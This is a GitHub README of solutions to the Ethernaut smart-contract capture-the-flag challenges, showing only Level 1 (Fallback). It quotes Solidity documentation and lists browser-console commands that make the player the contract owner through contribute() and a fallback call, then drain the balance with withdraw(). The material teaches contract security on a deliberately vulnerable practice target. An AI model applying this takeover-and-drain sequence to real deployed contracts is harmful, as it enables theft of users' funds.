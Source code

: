 # EthernautChallenges
The following are the solutions to the Ethernaut Challenges. For a detailed walkthrough please have a look at the videos :
https://www.youtube.com/channel/UCCk-bj8IXoWDLzu7Hjf3GLQ

As mentioned in the Solidity documentation : "When deploying contracts, you should use the latest released version of Solidity. This is because breaking changes as well as new features and bug fixes are introduced regularly."
-> please try to use the latest version

Here are some useful links:
* [Nicole Zhu's Walkthrough](https://hackernoon.com/ethernaut-lvl-0-walkthrough-abis-web3-and-how-to-abuse-them-d92a8842d71b)
* [OpenZeppelin Forum](https://forum.openzeppelin.com/t/ethernaut-community-solutions/561)
* [Solidity documentation](https://solidity.readthedocs.io/en/latest/)
* [Ethereum Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf)


# Solution:
## Level 1 Fallback:
Solidity documentation release 0.6.4 :
"A contract can have at most one fallback function, declared using fallback () external [payable] (without the function keyword). This function cannot have arguments, cannot return anything and must have external visibility. It is executed on a call to the contract if none of the other functions match the given function signature, or if no data was supplied at all and there is no receive Ether function. The fallback function always receives data, but in order to also receive Ether it must be marked payable." p. 99

"msg.value (uint): number of wei sent with the message" p. 73

In the case of this contract, in order to execute the fallback function we need to pass the required condition: 
require (msg.value > 0 && contributions[msg.sender] > 0)
 
Therefore, before calling the fallback function with an amount attached to it, we also need to increase our 
contributions (using the contribute() function). Once that’s done we will become the new owner of the contract. 
We can then use the withdraw() function to reduce its balance to 0.

We will solve this challenge using the following command in the console (can be access by clickin F12):<br/>
*await contract.owner()*<br/>
*player*<br/>
*await contract.contributions(player)*<br/>
*await contract.contribute({value:1})*<br/>
*await contract.contributions(player)*<br/>
*await contract.sendTransaction({value:1})*<br/>
*await contract.owner()*<br/>
*player*<br/>
*await contract.withdraw()*<br/>
